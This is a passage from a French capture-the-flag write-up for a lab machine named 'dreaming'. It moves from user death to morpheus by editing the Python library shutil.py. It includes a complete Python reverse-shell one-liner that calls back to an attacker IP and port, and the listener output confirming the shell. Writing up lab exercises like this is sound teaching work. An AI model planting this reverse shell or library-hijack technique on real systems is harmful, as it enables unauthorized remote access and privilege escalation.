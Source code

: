 ```
DB_USER = "death"
DB_PASS = "[...REDACTED...]"
DB_NAME = "library"
```
et le flag qui ce trouve dans **/home/death**
## Morpheus
L'utilisateur **death** ne peux pas sudo:
```
$ sudo -l 
sudo -l
[sudo] password for death: [...REDACTED...]

Sorry, user death may not run sudo on dreaming.
```
Dans l'historique de **lucien**, je me souvient qu'il y a eu une modification de la lib shutil.py comme on peu le voir ici ligne 12 13 14 15 et 16:
```
lucien@dreaming:/usr/lib/python3.8$ history
    1  ls
    2  cd /etc/ssh/
    3  clear
    4  nano sshd_config
    5  su root
    6  cd ..
    7  ls
    8  cd ..
    9  cd etc
   10  ls
   11  ..
   12  cd ..
   13  cd usr
   14  cd lib
   15  cd python3.8
   16  nano shutil.py 

```
En tant que **lucien** je ne peux pas le modifier, mais en tant que **death** si je peux.
On m'avais dis que modifier les lib n'étais pas une très bonne pratique, mais bon, on va test quand même !

Je vais donc essayer d'y mettre un revshell, je l'ajoute tout en haut de la lib :
```
import os,pty,socket;s=socket.socket();s.connect(("10.11.50.195",4447));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")
```
et me voici **morpheus**
```
listening on [any] 4447 ...
connect to [10.11.50.195] from (UNKNOWN) [10.10.84.24] 54694
$ id
id
uid=1002(morpheus) gid=1002(morpheus) groups=1002(morpheus),1003(saviors)
```
Le flag est dans **/home/morpheus**
